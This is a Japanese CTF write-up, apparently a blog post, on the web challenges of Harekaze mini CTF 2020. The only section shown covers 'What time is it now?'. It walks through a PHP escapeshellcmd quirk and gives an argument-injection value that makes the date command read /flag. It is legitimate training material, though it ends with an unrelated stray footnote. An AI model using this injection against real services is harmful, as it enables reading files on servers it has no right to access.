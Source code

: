 ```yaml
---
title: Harekaze mini CTF 2020 writeup for web challs
tags:
  - ctf
image: ./img/02.png
---
```


import {Tweet} from "@site/src/components/tweet";

Harekaze mini CTF 2020にチーム./Vespiaryで出て、全完して5位でした。全完したのはTSGと弊チームだけです。

<Tweet html='<blockquote class="twitter-tweet"><p lang="en" dir="ltr">2nd place! <a href="https://twitter.com/hashtag/CakeCTF?src=hash&amp;ref_src=twsrc%5Etfw">#CakeCTF</a> 🍰 <a href="https://t.co/72nsBS1VRN">pic.twitter.com/72nsBS1VRN</a></p>&mdash; Ark (@arkark_) <a href="https://twitter.com/arkark_/status/1431936049593208833?ref_src=twsrc%5Etfw">August 29, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>



自分はweb問を解いたので、以下はそのwriteupです。WASM BFはチームメンバと一緒に解きました。
また、公式のリポジトリは[ここ](https://github.com/TeamHarekaze/harekaze-mini-ctf-2020-challenges-public)にあります。

## [web] What time is it now?

123 pts, 63 solves

> そうねだいたいね…<br />
> `http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/`

### 問題概要

- dateコマンドの実行結果を表示するサービスが与えられる
- フラグファイルは`/flag`に置かれている

### 考察

```php
$format = isset($_REQUEST['format']) ? (string)$_REQUEST['format'] : '%H:%M:%S';
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
```
の部分で、`date`コマンドを実行しています。

`escapeshellcmd`には

> ' および " は、対になっていない場合にのみエスケープされます。<br />
> `https://www.php.net/manual/ja/function.escapeshellcmd.php`

という有名で最高な仕様があるので、これを使います。

この仕様を悪用すると、`?format=' -f '/flag`に対してエスケープされずに
```shell
date '+' -f '/flag' 2>&1
```
が実行されるようになります。


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。